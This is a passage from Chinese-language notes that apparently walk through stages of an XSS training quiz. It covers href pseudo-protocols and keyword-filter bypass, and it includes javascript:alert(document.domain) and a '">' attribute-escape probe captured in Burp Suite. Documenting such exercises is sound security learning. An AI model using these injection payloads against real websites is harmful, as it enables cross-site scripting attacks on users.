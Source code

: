href 指定跳转位置（html 锚点）

> 真协议URL跳转地址：href="http://qq.com"
>
> 伪协议URL执行代码：href="javascript:void(0)"
>
> href="	协议	:	地址	"
>
> 常用的伪协议 php	js

提交代码

```
javascript:alert(document.domain)
```

点击回显处

> 发现可以直接注入

### 1.2.5 Stage #9 UTF-7 编码注入（跳过）

> https://xss-quiz.int21h.jp/stage_09.php

控制台执行

```
alert(document.domain);
```

> UTF-7 协议，现在浏览器用的是 UTF-8，直接跳过

### 1.2.6 Stage #10 绕过关键字 domain

> https://xss-quiz.int21h.jp/stage00010.php

**分析页面与用户交互的可控参数**

在 burpsuite 开启拦截，提交 hello

```
p1=hello
```

> 发现只存在一个可控参数

**查找页面的回显**

```
<input type="text" name="p1" size="50" value="hello">
```

> 页面无回显
>
> 代码回显发现 value 标签

**判断能否执行 javascript 代码**

提交 `">hello`

> 回显发现 hello 逃逸
